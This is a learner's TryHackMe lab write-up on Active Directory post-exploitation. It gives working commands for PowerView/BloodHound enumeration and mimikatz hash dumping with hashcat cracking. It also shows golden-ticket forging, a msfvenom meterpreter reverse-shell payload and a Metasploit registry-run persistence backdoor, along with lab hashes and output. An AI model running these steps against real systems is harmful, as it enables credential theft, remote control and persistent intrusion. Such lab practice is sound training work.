










# Tryhackme 15 August 2021

## Enumeration with Powerview

Powerview: a powershell script for domain enumeration once a shell is gained on a system.

>powershell -ep bypass

Starts powershell in the victim machine with execution policy bypass to run scripts easily.

>. .\Downloads\PowerView.ps1

Starts the PowerView script. This assumes the PowerView is already downloaded in a directory.

> Get-NetUser | select cn

Enumerate domain users.



>Get-NetGroup -GroupName *admin*

Enumerate domain groups 'admin'



>Invoke-ShareFinder

Display all shares in the domain

```ps1
PS C:\Users\Administrator> Invoke-ShareFinder
\\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin 
\\Domain-Controller.CONTROLLER.local\C$         - Default share
\\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
\\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
\\Domain-Controller.CONTROLLER.local\Share      -
\\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share
```

>What is the shared folder that is not set by default? 

Share

>What operating system is running inside of the network besides Windows Server 2019?

```ps1
PS C:\Users\Administrator> Get-NetComputer -fulldata | select operatingsystem

operatingsystem                  
---------------
Windows Server 2019 Standard
Windows 10 Enterprise Evaluation
Windows 10 Enterprise Evaluation

```
Answer: Windows 10 Enterprise Evaluation

>I've hidden a flag inside of the users find it

Admittedly, I had to refer to other writeups. But another way to find this out is by first running

1. Get-NetUser

The command above prints the details of all users. Previously, I used this command with '| select cn' so I thought by removing that I'd be able to see more details. Next is to scroll through everything one by one till you find the flag. But scrolling will take a lot of time so instead, I run 

1. Get-NetUser | find givenname

The flag is in the 'giveenname' category. I found this out from this writeup:https://hex-men.tech/post_exploitation_basics/


## Enumeration with Bloodhound

Bloodhound is a GUI to visually map a network. Sharphound is used here too which works similarly to PowerView and takes the users/groups/trusts of the network and puts it all into a .json file. The .json file can then be used by Bloodhound.

This task is to gather this .json file to feed into Bloodhound.

### Getting loot with Sharphound

1. Ensure the ssh is using powershell with -ep bypass
1. Open Sharphound with '. .\Downloads\SharpHound.ps1'
1. Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

``` ps1
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.LOCAL -ZipFileName loot.zip        
----------------------------------------------- 
Initializing SharpHound at 4:19 AM on 8/15/2021 
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container     

[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL
PS C:\Users\Administrator> [+] Cache File not Found: 0 Objects in cache 

[+] Pre-populating Domain Controller SIDS 
Status: 0 objects finished (+0) -- Using 97 MB RAM 
Status: 66 objects finished (+66 33)/s -- Using 102 MB RAM 
Enumeration finished in 00:00:02.2919351 
Compressing data to C:\Users\Administrator\20210815041921_loot.zip
You can upload this file directly to the UI 

SharpHound Enumeration Completed at 4:19 AM on 8/15/2021! Happy Graphing! 
```

>sudo scp Administrator@10.10.159.225:/C:/Users/Administrator/20210815041921_loot.zip /home

The command I run to download the loot file. Note to self, use scp on the attacker Linux machine next time.

### Mapping the Network with Bloodhound

Start neo4j first

>sudo neo4j console

Remember the sudo since Kali no longer has root user by default. Running Bloodhound will then be possible because there's the green check mark since neo4j is online.



Apparently passwords needs to be changed but not gonna bother doucmenting that.

I was not able to import the Bloodhound with some built-in buttons so instead I drag and dropped it



THM steps seems to be outdated since Queries is now . 




The resulting graph from the .json loot. This command in particular is 'find all domain admins'.

>What service is also a domain admin

SQLSERVICE
Can be seen by observing the graph. Not gonna be able to do much with this due to how buggy Bloodhound is on my VM.

>What two users are Kerberoastable? 

Can be discovered by selecting "Shortest Paths from Kerberoastable Users"



## Dumping hashes with mimikatz (electric boogaloo)

In this section, dumping hashes is gonna be done in an active directory which is semi-relateed to Kerberos I suppose

The target machine has mimikatz installed so proceesding from there.

1. Always check the privilege: 

mimikatz # privilege::debug 
Privilege '20' OK 

>lsadump::lsa /patch

Command to dump the hashes. Remember, LSA is the LSASS memory that contains all that juicy credentials.

>What is the Machine1 Password?

The hash obtained from the dump is as follow: 64f12cddaa88057e06a81b54e73b949b

```
RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b
```

Run this command: hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt 
1000 is the hash mod for NTLM which is what the hash found is.

Answer: Password1

>What is the Machine2 Hash?

```
RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0
```

## Golden Ticket Attacks w/ mimikatz 

Another Golden Ticket attack. Good opportunity to improve my understanding for this because admittedly, there's too much steps involved and new concepts for Kerberoasting.

As usual, run mimikatz.exe, check privilege and dump for KRBTGT since we want a Golden Ticket

>lsadump::lsa /inject /name:krbtgt

>kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /kr
btgt:5508500012cc005cf7082a9a89ebdfdf /id:500 


Command above to generate the golden ticket. Values for sid and krbtgt are derived from the lsadump for krbtgt

From hereon, the steeps are not possible unless I setup my own Active Directory. But the gist is with the ticket, I should be able to access other machines with the generated Golden Ticket. But 

>misc::cmd

needs to be executed.

## Enumeration with Server Manager

This requires RDPing (Remote Desktop Protocol iirc) into the server. 

Greeted with the IIS dashboard



On a side note, OpenVPN performs terribly vs its Linux counterpart. Experiencing disconnects very often.



Apparently, THM claims that some sys admins do not know that attackers can see Description in this "Active Directory Users and Computers' so they set passwords there like above.

>What is the SQL Service password 

MYPassword123# (just expand the vieew from the above screenshot)

>What tool allows to view the event logs?

Server Manager -> Tools -> Event Viewer

Had to rely on other writeups for this because on my desktop as RDP disconnects after 30 seconds or so.


Referred to this writeup: https://hex-men.tech/post_exploitation_basics/

## Maintaining Access

To maintain access here, the method to be used is a meterpreter shell + a metasploit module to maintain access by creating a backdoor service.

The backdoor service works by giving instant meterpreter shell if the target machine is shutdown/resets.

Requires some knowledge with msfvenom and metasploit. At this point, I am familiar enough with metasploit but not so much with msfvenom despite having used it several times. Mostly because I'm not sure wahts the difference between the two since I thought msfvenom is part of metasploit.

### Generate payload with msfvenom

So in this section, msfvenom is used to generate a payload (note to self: remember this msfvenom usecase please).

>msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=5555 -f exe -o shell.exe

The command I used to generate the payload. tun0 refers to my localhost which I got from 'ifconfig'.

### Transfer payload file (shell.exe) to target machine

There's a few ways to do this. The writeup I referred before used a Python HTTP server but that method is too tedious so instead I used scp with ssh

>scp shell.exe Administrator@10.10.159.225:'C:\Users\Administrator\Downloads'

And it worked well and it so much more easier. 

I referred to this but since the target machine is Windows, the directory is different. 
https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/

Additionally, this method only works if the target machine has ssh and we have credentials so in real world situation, might need to use the HTTP server method OR netcat or whatever else.

### Setting the payload

Open metasploit with

>msfconsole init

1. Afterwards, 'use exploit/multi/handler'.
1. Set 'payload' with 'set payload windows/meterpreter/reverse_tcp'.
1. Set LHOST as 'tun0'.
1. Set LPORT as '5555' since that is what is set on the shell.exe that was generated with msfvenom
1. Run 'exploit'.
1. Execute the binary that was uploaded into the target machine. Just type shell.exe on the terminal with access to the target machine.



Now type 'background' so that it runs in the background as a persistence module.



### Running the Persistence Module

``` bash
msf6 exploit(multi/handler) > use exploit/windows/local/persistence
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```
Selecting the persistence module. The payload is set to the one I used earlier.

```bash
msf6 exploit(windows/local/persistence) > set session 1
session => 1
```
The session is set to '1' which refers to the session that was background-ed earlier.

```bash
msf6 exploit(windows/local/persistence) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  1         meterpreter x86/windows  CONTROLLER\Administrator @ DOMAIN-CONTRO  10.4.38.235:5555 -> 10.10.159.225:50513
                                     LL                                        (10.10.159.225)
```
Above shows the sessions listed when typing 'sessions'.

```bash
msf6 exploit(windows/local/persistence) > exploit

[*] Running persistent module against DOMAIN-CONTROLL via session ID: 1
[+] Persistent VBS script written on DOMAIN-CONTROLL to C:\Users\Administrator\AppData\Local\Temp\negcrtIKCVg.vbs
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\oIsChbsA
[+] Installed autorun on DOMAIN-CONTROLL as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\oIsChbsA
[*] Clean up Meterpreter RC file: /home/kali/.msf4/logs/persistence/DOMAIN-CONTROLL_20210815.4604/DOMAIN-CONTROLL_20210815.4604.rc
msf6 exploit(windows/local/persistence) >
```
Above runs the persistence exploit.

With this, if the target machine dies, the persistence module creates a backdoor to get the meterpreter shell running again. 

All that needs to be done is to ensure the 

>multi/handler exploit

is selected in Metasploit and run that. The payload needs to be set to 'windows/meterpreter/reverse_tcp' however as that is used to send the meterpreter payload.

# End of CompTIA Pentest+ !!!!

And this marks the day I finish the Tryhackme CompTIA Pentest+. While I want to say this was easy, it got progressively tougher the further I went. However, I learned a lot from this module and I'm looking forward to solve the other rooms now and also redo certain rooms in this module.


